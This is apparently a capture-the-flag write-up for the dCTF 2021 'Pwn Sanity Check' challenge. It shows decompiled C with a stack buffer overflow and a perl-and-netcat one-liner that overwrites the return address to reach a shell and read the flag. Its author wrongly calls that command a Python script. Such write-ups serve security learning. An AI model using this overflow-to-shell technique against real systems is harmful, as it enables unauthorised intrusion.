 Challenge: Pwn Sanity Check
Points: 100
Category: Pwn
Objective: Find the flag on the server with the help of a given file

Process to find the flag: So first of all I opened the given file on Ghidra and saw this.
``
`void vuln(void)
{
  char local_48 [60];
  int local_c;
  puts("tell me a joke");
  fgets(local_48,0x100,stdin);
  if (local_c == -0x21523f22) {
    puts("very good, here is a shell for you. ");
    shell();
  }
  else {
    puts("will this work?");
  }
  return;
}
void shell(void)
{
  puts("spawning /bin/sh process");
  puts("wush!");
  printf("$> ");
  puts("If this is not good enough, you will just have to try harder :)");
  return;
}
void win(int param_1,int param_2)
{
  puts("you made it to win land, no free handouts this time, try harder");
  if (param_1 == -0x21524111) {
    puts("one down, one to go!");
    if (param_2 == 0x1337c0de) {
      puts("2/2 bro good job");
      system("/bin/sh");
                    /* WARNING: Subroutine does not return */
      exit(0);
    }
  }
  return;```

To solve this we needed a python script, which would skip all the basic parameters and get us the flag.
So this is the python script that we wrote

```python
(perl -e 'print "\xdb\x06\x40\x00\x00\x00\x00\x00"x"32"."\n"';echo "cat flag.txt")|nc dctf-chall-pwn-sanity-check.westeurope.azurecontainer.io 7480
```
So basically the address the computer will go to after the function is right after the area we are reading data into. 
So we just overwrite the address and the data that is being repeated 32 times is the address.
The result of this command is 

![result](https://github.com/thirty2/CTF-Writeups/blob/master/2021/dCTF/pwn/command-result.png "Result")
 
The flag: dctf{Ju5t_m0v3_0n}
